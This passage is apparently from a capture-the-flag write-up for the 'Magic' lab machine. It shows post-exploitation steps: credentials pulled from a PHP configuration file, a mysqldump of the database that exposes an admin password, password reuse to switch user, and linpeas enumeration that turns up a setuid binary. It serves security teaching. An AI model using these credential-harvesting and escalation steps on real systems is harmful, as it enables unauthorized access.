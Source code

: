 First thing i usually do after getting a tty shell is running `linpeas.sh`, but wasn’t able to anything intresting which `www-data` can use to get a privesc to user. So on enumerating the `/var/www/Magic` folder on the webserver we find a file `db.php5` which had the mysql database creds of user `theseus`.

{% highlight php5 %}
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
{% endhighlight %} 

I tried to use `mysql` and funny, it wasn’t installed on the box, i quickly googled about ways to dump mysql database and got to know about a tool `mysqldump`(funfact it was on the server).

{% highlight bash %}
mysqldump Magic -utheseus -piamkingtheseus
...
LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
...
{% endhighlight %} 

`...` represents random(not usefull for us) content, alright so we got another password. So now we have one username `theseus`(a user on box) and two passwords `iamkindtheseus` and `Th3s3usW4sK1ng`.
su theseus tried both passwords and the correct creds were `theseus:Th3s3usW4sK1ng`.

Alright we got the user on box
{% highlight bash %}
theseus@ubuntu:~$ cat user.txt | wc -c
cat user.txt | wc -c
33
theseus@ubuntu:~$
{% endhighlight %} 

### Rooting the box

Running `linpeas.sh` on the server, if you don’t know about linpeas you can get it from their github repo. Basically it is a bash script that finds some privilage escalation vectors for us by performing basic recon. So on running we find this.

{% highlight bash %}
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
{% endhighlight %} 

Intresting, on running file command we find that it is a elf executable theseus@ubuntu:~$ file /bin/sysinfo

{% highlight bash %}
file /bin/sysinfo
/bin/sysinfo: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9e9d26d004da0634c0747d16d377cd2a934e565a, not stripped
{% endhighlight %} 
